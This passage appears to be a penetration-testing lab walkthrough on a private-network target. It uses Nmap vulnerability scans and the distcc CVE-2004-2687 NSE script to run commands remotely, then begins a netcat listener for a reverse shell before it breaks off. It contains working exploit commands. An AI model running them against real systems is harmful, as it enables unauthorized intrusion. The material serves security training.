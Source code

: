 ###  NSE COMMANDS 

The Nmap Scripting Engine (NSE) is one of Nmap's most powerful and flexible features. It allows users to write (and share) simple scripts (using the Lua programming language ) to automate a wide variety of networking tasks. Those scripts are executed in parallel with the speed and efficiency you expect from Nmap. Users can rely on the growing and diverse set of scripts distributed with Nmap, or write their own to meet custom needs.

Other way tos search vulnerable services is running nsevuln script. In order to find vulnerable services we can use the following command
```
nmap -sV -p53,6000,111,139,25,23,21,22,445,514,513,512,80,1524,1099,2121,3306,3632,5432,5900,2049,6200,6667,6697,8009,8180,8787,42605,47411,51474,52702 --script vuln 192.168.153.169
```

We have a detail of each service, we will analyze one of then: distcc

![20](https://user-images.githubusercontent.com/50930193/118382002-3272ed00-b5b6-11eb-88ef-facdf3903222.jpg)

We already know this service is vulnerable to CVE 2004–2687. So we need use the nse script to analyze and exploit this vulnerability

To find the locatiof of nse script use the following commands
```
locate *.nse
```

Go to the location of scripts and find one script to vsftpd
```
ls *distcc* -la
-rw-r--r-- 1 root root 3519 Oct 12  2020 distcc-cve2004-2687.nse
```
Open the distcc-cve2004-2687.nse file and review the command usage
```
mousepad distcc-cve2004-2687.nse
```
![21](https://user-images.githubusercontent.com/50930193/118382041-af9e6200-b5b6-11eb-95cd-2b12bf4dc186.jpg)

We also know there is a nmap script that can be used to exploit this vulnerability. So we try use the scripts with other command different to id, we use ifconfig

```
nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='ifconfig'" 192.168.153.169
```

![22](https://user-images.githubusercontent.com/50930193/118382071-17ed4380-b5b7-11eb-904d-96ad94817b66.jpg)

It works!!!, so we need the same method to get a reverse shell with the target

We need use three windows.

In the first window we need create a listener with netcat

```
nc nlvp 4444
```
